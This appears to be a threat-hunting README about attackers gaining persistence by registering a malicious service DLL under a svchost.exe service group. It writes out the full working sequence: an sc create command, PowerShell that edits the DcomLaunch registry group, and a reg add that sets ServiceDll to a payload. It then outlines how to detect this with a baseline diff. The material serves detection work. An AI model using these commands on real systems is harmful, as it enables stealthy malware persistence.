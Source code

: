 one of the Persistence tichnique is using SVCHOST injection or abusing to Upload malicouse Service on a Service Group via SVCHOST.exe like this sample :

```
## Hunting in SVCHOST.exe -- Reading about SVCHOST.exe
svchost.exe -k DcomLaunch ## about ServiceGroup HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost and in DcomLaunch is about service group, DcomLuanch is an Example there are another serviceGroup like netsvc
svchost.exe -k -s ## this switch "-s" is direct point to the service there is in DcomLaunch (serviceGroup)


## The attacker Create Service under the SVCHOST.exe, this process has alot false positive logs

-- example the attack signature: 
sc create Test1 binpath="c:\windows\system32\svchost.exe -k Dcomlaunch" start=auto type=share    ### The Attacker add his mal_DLL on DcomLuanch Service Group for his aim  ## Create a service named "Test1"
$svc = Get-Item 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\'  ### Get the path of the svchost 
$value = $svc.GetValue("DcomLaunch")  ### get the whole services there are in the DcomLaunch Service Group and pull them into the $value
$value  ### until this step the whole of the DcomLaunch Service Group will be showing
$value += "Test1"  ## add this Services into the $value
$value
set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\" "DcomLaunch" $value   ## by this command add Test1 Service into the DcomLaunch
reg add "HKLM\system\currentcontrolset\services\Test1\parameters" /v servicedll /t REG_EXPAND_SZ /d "c:\programedata\dll1.dll" /f   ###HKLM\SYSTEM\CurrentControlSet\Services\Test1 in this sample /v named for type of service /t means type of value /d refferer to our payload
```

If you have CTI Role Base for Hunting this abnormal Behavior on the SVCHOST.exe you must using Powershell script as Base line using these methods:
1- Run "svchost_injection_detect.ps1" on the Clean Install System and take an output for further compare.
2- Run "svchost_injection_detect.ps1" on victim
3- diff between Clean and malincous outputs

In Brifly :
1- Create a service
2- add our services into the ServiceGroup like DcomLunch
3- add our payload into the DcomLunch Service Group name dll1.dll
4- if the victime login to his client our paylaod would be run

